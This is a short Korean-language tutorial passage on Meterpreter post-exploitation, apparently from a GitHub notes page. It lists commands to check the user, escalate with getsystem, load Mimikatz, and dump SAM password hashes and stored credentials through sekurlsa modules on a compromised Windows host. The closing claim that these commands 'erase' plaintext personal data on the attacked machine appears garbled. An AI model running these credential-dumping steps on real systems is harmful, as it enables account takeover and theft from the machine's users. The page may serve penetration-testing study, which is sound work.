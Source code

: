 ![05](./image5/Screenshot_2020-07-20_02-49-10.png)

```
meterpeter> getuid //user 확인
meterpeter> getsystem //system user가 아니라면 입력
meterpeter> load mimikatz 
meterpeter> help mimikatz //mimikatz의 built-in 커맨드 확인
```

'mimikats_command'는 Mimikatz의 모든 요소에 액세스 할 수 있게 해준다.

```
meterpeter> mimikatz_command -f abc:: //abc는 아무 의미 없는 말.
meterpeter> mimikatz_command -f samdump::
meterpeter> mimikatz_command -f samdump::hashes //해쉬 추출
meterpeter> mimikatz_command -f sekurlsa:: //패스워드 관련
meterpeter> mimikatz_command -f sekurlsa::searchPasswords
```

mimikatz_command로 우리는 mimikatz에서 사용할 수 있는 모듈들을 확인하고, 해쉬를 추출하고, 공격당한 머신에서 텍스트로 된 개인정보를 지울 수 있다.
